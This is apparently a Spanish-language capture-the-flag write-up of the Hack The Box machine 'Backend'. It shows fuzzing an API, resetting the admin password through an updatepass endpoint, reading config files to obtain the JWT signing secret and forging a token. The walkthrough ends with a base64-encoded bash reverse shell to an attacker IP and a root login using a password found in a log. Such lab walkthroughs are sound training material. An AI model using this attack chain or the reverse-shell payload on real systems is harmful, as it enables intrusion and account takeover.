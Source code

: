 10.10.11.161 - Backend
----------------------

Puertos abiertos: 22(ssh), 80(http)

```console
└─$ whatweb http://10.10.11.161
http://10.10.11.161 [200 OK] Country[RESERVED][ZZ], HTTPServer[uvicorn], IP[10.10.11.161]
└─$ wfuzz -c --hc=404 -t 200  -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.11.161/FUZZ/
000000076:   307        0 L      0 W        0 Ch        "docs"
000001012:   307        0 L      0 W        0 Ch        "api"
```
Hay un subdirectorio /api
> Una api es una web diseñada para los programas en vez de para las persoanas, por eso no tiene interfaz grafica 
> y funciona principalmente por intercambio de datos en formato json en rutas conocidas como **endpoints**

Siguiendo con el fuzzing a la api ```http://10.10.11.161/api/FUZZ/``` damos con **/v1** y dentro con **/admin**.

```console
└─$ curl -s http://10.10.11.161/api/v1
{"endpoints":["user","admin"]}
└─$ curl -s http://10.10.11.161/api/v1/user 
{"detail":"Not Found"}       # Aunque ponga esto, por el funcionamiento de las apis suele haber /1, /2...
└─$ curl -s http://10.10.11.161/api/v1/user/1
{"guid":"36c2e94a-4271-4259-93bf-c96ad5948284","email":"admin@htb.local","date":null,"time_created":1649533388111,"is_superuser":true,"id":1}
```
Probé a enumerar usuarios pero no di con nada
```console
 └─$ for i in $(seq 1 20); do curl -s http://10.10.11.161/api/v1/user/$i; echo; done
{"guid":"36c2e94a-4271-4259-93bf-c96ad5948284","email":"admin@htb.local","date":null,"time_created":1649533388111,"is_superuser":true,"id":1}
null
null
null
...
```

La ruta /docs nos devuelve "not authenticated"
Lo unico que queda es cambiar el metodo.
```console
└─$ wfuzz -c --hc=405 -t 200 -X POST -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.11.161/api/v1/user/FUZZ
000000039:   422        0 L      3 W        172 Ch      "login"                                              
000000203:   422        0 L      2 W        81 Ch       "signup"   

└─$ curl -s -X POST http://10.10.11.161/api/v1/user/login -d {'loc':'test'} | jq
{ "detail": [
     {"loc": [
        "body",
        "username" ],
      "msg": "field required",
      "type": "value_error.missing"},
    {"loc": [
        "body",
        "password"],
      "msg": "field required",
      "type": "value_error.missing"}]}
└─$ curl -s -X POST http://10.10.11.161/api/v1/user/signup -H "Content-Type: application/json" -d '{"username":"cucuxii", "password":"cucucxii123"}' | jq 
# Error falta el campo email
└─$ curl -s -X POST http://10.10.11.161/api/v1/user/signup -H "Content-Type: application/json" -d '{"username":"cucuxii", "password":"cucucxii123","email":"cucuxii@htb.local"}' | jq
└─$ curl -s -X POST http://10.10.11.161/api/v1/user/login -H "Content-Type: application/json" -d '{"username":"cucuxii", "password":"cucucxii123"}' | jq
# Error falta username y password
```

Como nos da error porque faltan dos campos que si se están enviando, habra que ponerlo de otro modo,
```console
└─$ curl -s -X POST http://10.10.11.161/api/v1/user/login -d "username=cucuxii&password=cucucxii123" 
{"detail":"Incorrect username or password"}
┌──(cucuxii㉿kali-xii)-[~/Maquinas/htb/Backend]
└─$ curl -s -X POST http://10.10.11.161/api/v1/user/login -d "username=cucuxii@htb.local&password=cucucxii123"
{"access_token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjY4MDkzMTI0LCJpYXQiOjE2Njc0MDE5MjQsInN1YiI6IjIiLCJpc19zdXBlcnVzZXIiOmZhbHNlLCJndWlkIjoiNDNjOTljOTAtZDBlNC00ZDVmLWIzODMtY2YyZTgyZGE2MjI0In0.ay1YLsGdoWBqF-DwBZfv9vo7zgUcxHEPh200zqBfmuI","token_type":"bearer"}
```

Nos da un token que habrá que arrastrar todo el rato del lado de la autenticacion, asi que mejor hacerse un script
Si lo decodificamos en jwt.io es muy similar a lo que obtuvimos de admin solo que "is_superuser : false"

```bash
#!/usr/bin/bash
bearer=$(curl -s -X POST http://10.10.11.161/api/v1/user/login -d "username=cucuxii@htb.local&password=cucucxii123" | jq | grep -oP '".*?"' | awk 'NR==2' | tr -d '"')
curl -s -X GET -H "Authorization: bearer $bearer" http://10.10.11.161/api/v1/admin/
```
```console
└─$ ./auth.sh
{"results":false}
```
La ruta /docs ```http://10.10.11.161/docs/``` no devuelve nada y si le ponemos -I aplica un redirect, aun asi 
poniendo -L para seguirlo no hay suerte.

Si lo abrimos por el navegador, pero añadiendo la cabecera de Authorization: bearer ... con este 
[plugin](https://addons.mozilla.org/en-US/firefox/addon/simple-modify-header/) podemos acceder a una web js
con todos los endpoints.


Por ejemplo sale este nuevo /api/v1/user/SecretFlagEndpoint (se puede ejecutar tanto desde la web como desde
curl)

```console
└─$ curl -X 'PUT' \
  'http://10.10.11.161/api/v1/user/SecretFlagEndpoint' \
  -H 'accept: application/json' \
  -H 'Authorization: bearer eyJhbGciOiJIUzI1NiIsInR5cCI6Ik...
{"user.txt":"e66d6585b7ae1f526bf27e341f0d880c"}  
```
Tambien hay dos nuevos endpoints del admin, uno para leer archivos de la máquina y otro para ejecutar comandos
en ella, pero no podemos por no ser admin.

El endpoint /docs (o sea donde estamos) tira de openapi.json, de ahí saca la información la web actual (y nos
muestra como funcionan todos los endpoints)

Uno de los endpoints más criticos es es de /api/v1/user/updatepass. Nos pide guid y password, el guid es el 
identificado de usuario y la contraseña, la nueva que cambiarle.

Se supone que está para ponerle tu guid, pero se le podría poner otro.
```console
└─$ curl -s http://10.10.11.161/api/v1/user/2{"guid":"43c99c90-d0e4-4d5f-b383-cf2e82da6224","email":"cucuxii@htb.local","date":null,"time_created":1667401713796,"is_superuser":false,"id":2}
└─$ curl -s http://10.10.11.161/api/v1/user/1
{"guid":"36c2e94a-4271-4259-93bf-c96ad5948284","email":"admin@htb.local","date":null,"time_created":1649533388111,"is_superuser":true,"id":1} 
```
En el endpoint nos muestran el comando por curl:
```console
curl -X POST 'http://10.10.11.161/api/v1/user/updatepass' \
  -H 'accept: application/json' -H 'Content-Type: application/json' \
  -H 'Authorization: bearer eyJhbGciOiJIUzI1NiIsInR5cCI6Ik...' \
  -d '{ "guid": "36c2e94a-4271-4259-93bf-c96ad5948284", "password": "cucuxii123" }'
```
Como le hemos cambiado la contraseña al admin, deberíamos poder conectanos como él:

```console
└─$ curl -s -X POST http://10.10.11.161/api/v1/user/login -d "username=admin@htb.local&password=cucuxii123"
{"access_token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjY4MTE0MjgzLCJpYXQiOjE2Njc0MjMwODMsInN1YiI6IjEiLCJpc19zdXBlcnVzZXIiOnRydWUsImd1aWQiOiIzNmMyZTk0YS00MjcxLTQyNTktOTNiZi1jOTZhZDU5NDgyODQifQ.Ghu7tUuWPi58GvtcdvQnkHc0jZK32VzN1LxrkfKkSgA","token_type":"bearer"} 
```
En el navegador podemos cambiar el authorization bearer por el nuevo para que nos reconozca como admin.
En el endpoint **/admin** nos dicen que si que somos admin ya.

Tenemos el endpoint de comandos -> **/api/v1/admin/exec**
```console
curl -X GET 'http://10.10.11.161/api/v1/admin/exec/whoami' \
  -H 'accept: application/json' \
  -H 'Authorization: bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpX...' \
{"detail":"Debug key missing from JWT"}   
```

Y el de leer archivos -> **/api/v1/admin/file**, este es mejor scriptearselo para tardar menos

```bash
#!/bin/bash

bearer="eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjY4MTE0MjgzLCJpYXQiOjE2Njc0MjMwODMsInN1YiI6IjEiLCJpc19zdXBlcnVzZXIiOnRydWUsImd1aWQiOiIzNmMyZTk0YS00MjcxLTQyNTktOTNiZi1jOTZhZDU5NDgyODQifQ.Ghu7tUuWPi58GvtcdvQnkHc0jZK32VzN1LxrkfKkSgA"

while true
do
  echo -n "$:> " && read file
  curl -s -X POST 'http://10.10.11.161/api/v1/admin/file' \
  -H 'accept: application/json' -H 'Content-Type: application/json' \
  -H "Authorization: bearer $bearer" -d '{"file":"'$file'"}' | sed 's/\\n/\n/g' | sed 's/\\u0000/\n/g' ; echo
done
```
```console
$:> /etc/passwd
{"file":"root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
# Existen los usuarios htb y root
/proc/self/environ
{"file":"APP_MODULE=app.main:app
PWD=/home/htb/uhc
$:> /home/htb/uhc/app/main.py
# El codigo de la app, destacando que importa tanto librerias internas
from app.schemas.user import User # -> /home/htb/uhc/app/schemas/user.py 
from app.api.v1.api import api_router 
from app.core.config import settings # -> /home/htb/uhc/app/core/config.py
from app import deps
from app import crud
# Tambien esto
uvicorn.run(app, host=\"0.0.0.0\", port=8001, log_level=\"debug\")
$:> /home/htb/uhc/app/core/config.py
JWT_SECRET: str = \"SuperSecretSigningKey-HTB\" # -> la key
FIRST_SUPERUSER: EmailStr = \"root@ippsec.rocks\" # -> lolazo
```
Vamos a crear nustra jwt otra vez pero con este parametro "Debug"
```python
>>> import jwt
>>> token = "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2Vu...
>>> secret = "SuperSecretSigningKey-HTB"
>>> cookie = jwt.decode(token, secret, ["HS256"]))
>>> cookie["debug"] = True
>>> cookie
{'type': 'access_token', 'exp': 1668114283, 'iat': 1667423083, 'sub': '1', 'is_superuser': True, 'guid': '36c2e94a-4271-4259-93bf-c96ad5948284', 'debug': True}
>>> jwt.encode(cookie, secret, "HS256")
'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjY4MTE0MjgzLCJpYXQiOjE2Njc0MjMwODMsInN1YiI6IjEiLCJpc19zdXBlcnVzZXIiOnRydWUsImd1aWQiOiIzNmMyZTk0YS00MjcxLTQyNTktOTNiZi1jOTZhZDU5NDgyODQiLCJkZWJ1ZyI6dHJ1ZX0.iZFvYEBJbK9PX4xl1SfdfUwowHOoD34pMHozKr4wUeA'
```

```bash
#!/bin/bash

bearer="eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjY4MTE0MjgzLCJpYXQiOjE2Njc0MjMwODMsInN1YiI6IjEiLCJpc19zdXBlcnVzZXIiOnRydWUsImd1aWQiOiIzNmMyZTk0YS00MjcxLTQyNTktOTNiZi1jOTZhZDU5NDgyODQiLCJkZWJ1ZyI6dHJ1ZX0.iZFvYEBJbK9PX4xl1SfdfUwowHOoD34pMHozKr4wUeA"
while true
do
  echo -n "$:> " && read command
  curl -s -X GET "http://10.10.11.161/api/v1/admin/exec/$command" \
  -H 'accept: application/json' -H 'Content-Type: application/json' -H "Authorization: bearer $bearer"; echo
done
```
```console
└─$ ./command.sh
$:> id
"uid=1000(htb) gid=1000(htb) groups=1000(htb),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lxd)"
```
Como le estamos pasando el comando a una url, hay que urlencodearlo (espacios a %20 y & a %26) o formatearlo
```console
└─$ echo 'bash -c "bash  -i >& /dev/tcp/10.10.14.6/443 0>&1"' | base64
YmFzaCAtYyAiYmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDMgMD4mMSIK
echo%20YmFzaCAtYyAiYmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDMgMD4mMSIK|base64%20-d|bash
# echo YmFzaCAtYyAiYmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDMgMD4mMSIK | base64 -d | bash
```
Con netcat conseguimos la shell

```
htb@Backend:~/uhc$ grep -r pass *
# nada
htb@Backend:~/uhc$ ls
__pycache__  app         poetry.lock      pyproject.toml    uhc.db
alembic      auth.log    populateauth.py  requirements.txt
alembic.ini  builddb.sh  prestart.sh      run.sh
htb@Backend:~/uhc$ cat auth.log
11/02/2022, 14:14:00 - Login Failure for Tr0ub4dor&3
htb@Backend:~/uhc$ su root
Password: 
root@Backend:/home/htb/uhc# cd 
```



